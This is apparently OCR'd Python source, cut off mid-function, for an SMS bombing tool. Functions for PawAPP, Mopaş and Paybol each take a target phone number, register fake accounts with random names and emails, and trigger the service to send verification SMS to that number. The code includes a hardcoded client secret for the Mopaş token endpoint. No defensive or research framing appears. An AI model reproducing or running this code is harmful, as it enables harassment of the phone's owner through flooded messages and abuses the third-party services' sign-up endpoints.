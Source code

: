 def pawapp(number):
    try:
        url = "https://api.pawder.app/api/authentication/sign-up"
        payload = {
            "languageId" : "2",
            "mobileInformation" : "",
            "data" : {
                "firstName" : f"{''.join(random.choices(string.ascii_lowercase, k=10))}",
                "lastName" : f"{''.join(random.choices(string.ascii_lowercase, k=10))}",
                "userAgreement" : "true",
                "kvkk" : "true",
                "email" : f"{''.join(random.choices(string.ascii_lowercase, k=10))}@gmail.com",
                "phoneNo" : f"{number}",
                "username" : f"{''.join(random.choices(string.ascii_lowercase + string.ascii_uppercase + string.digits, k=10))}"
            }
        }
        r = requests.post(url=url, json=payload, timeout=5)
        r1 = json.loads(r.text)["success"]
        if r1 == True:
            return True, "PawAPP"
        else:
            return False, "PawAPP"
    except:
        return False, "PawAPP"

def mopas(number):
    try:
        url = "https://api.mopas.com.tr//authorizationserver/oauth/token?client_id=mobile_mopas&client_secret=secret_mopas&grant_type=client_credentials"
        r = requests.post(url=url, timeout=2)
        
        if r.status_code == 200:
            token = json.loads(r.text)["access_token"]
            token_type = json.loads(r.text)["token_type"]
            url = f"https://api.mopas.com.tr//mopaswebservices/v2/mopas/sms/sendSmsVerification?mobileNumber={number}"
            headers = {"authorization": f"{token_type} {token}"}
            r1 = requests.get(url=url, headers=headers, timeout=2)
            
            if r1.status_code == 200:
                return True, "Mopaş"
            else:
                return False, "Mopaş"
        else:
            return False, "Mopaş"
    except:
        return False, "Mopaş"

def paybol(number):
    try:
        url = "https://pyb-mobileapi.walletgate.io/v1/Account/RegisterPersonalAccountSendOtpSms"
        payload = {
            "otp_code" : "null",
            "phone_number" : f"90{number}",
            "reference_id" : "null"
        }
        r = requests.post(url=url, json=payload, timeout=5)
        